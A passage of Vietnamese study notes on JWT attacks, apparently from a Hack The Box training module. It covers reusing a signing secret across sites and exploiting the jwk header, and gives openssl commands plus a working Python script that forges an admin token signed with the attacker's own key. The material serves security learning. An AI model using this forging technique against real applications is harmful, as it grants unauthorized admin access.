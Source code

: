 - **Kết quả:** Ứng dụng web chấp nhận JWT giả mạo và cấp quyền admin cho hacker.

---
# 5. Các tấn công khác vào JWT (Further JWT Attacks)

#### **1. Reusing JWT Secrets (Tái sử dụng khóa bí mật)**
Một trong những lỗ hổng phổ biến là việc **tái sử dụng khóa bí mật** cho nhiều ứng dụng web khác nhau. Nếu các ứng dụng chia sẻ cùng một khóa bí mật để ký JWT, hacker có thể lợi dụng JWT từ một ứng dụng này để truy cập vào ứng dụng khác.

**Ví dụ:**
- Công ty sở hữu hai trang mạng xã hội: **socialA.htb** và **socialB.htb**.
- Người dùng có vai trò **moderator** trên **socialA**, nhưng chỉ là người dùng bình thường trên **socialB**.
- JWT trên **socialA** chứa claim `"role": "moderator"`:
  ```json
  {
    "user": "exampleUser",
    "role": "moderator"
  }
  ```
- Nếu cả hai ứng dụng sử dụng cùng một khóa bí mật, hacker có thể sử dụng JWT từ **socialA** trên **socialB** để truy cập quyền **moderator**.

**Phòng chống:**
- Mỗi ứng dụng phải có khóa bí mật riêng biệt để ký JWT.
- Không chia sẻ khóa bí mật giữa các dịch vụ khác nhau.

#### **2. Exploiting the `jwk` Claim**
**Claim `jwk`** chứa thông tin về khóa công khai dùng để xác minh JWT. Nếu ứng dụng web chấp nhận bất kỳ khóa công khai nào được cung cấp trong claim `jwk`, hacker có thể tạo ra JWT giả mạo và cung cấp khóa công khai của riêng họ trong claim `jwk`.

**Cách thực hiện tấn công:**
1. Tạo cặp khóa riêng và khóa công khai:
   ```bash
   openssl genpkey -algorithm RSA -out exploit_private.pem -pkeyopt rsa_keygen_bits:2048
   openssl rsa -pubout -in exploit_private.pem -out exploit_public.pem
   ```

2. Sử dụng khóa riêng để ký JWT và chèn khóa công khai vào claim `jwk`.

**Script Python tự động khai thác:**
```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt

# Payload của JWT
jwt_payload = {'user': 'htb-stdnt', 'isAdmin': True}

# Chuyển đổi PEM thành JWK
with open('exploit_public.pem', 'rb') as f:
    public_key_pem = f.read()
    public_key = serialization.load_pem_public_key(public_key_pem, backend=default_backend())
    jwk_key = jwk.construct(public_key, algorithm='RS256')
    jwk_dict = jwk_key.to_dict()

# Ký JWT
with open('exploit_private.pem', 'rb') as f:
    private_key_pem = f.read()
    token = jwt.encode(jwt_payload, private_key_pem, algorithm='RS256', headers={'jwk': jwk_dict})

print(token)
```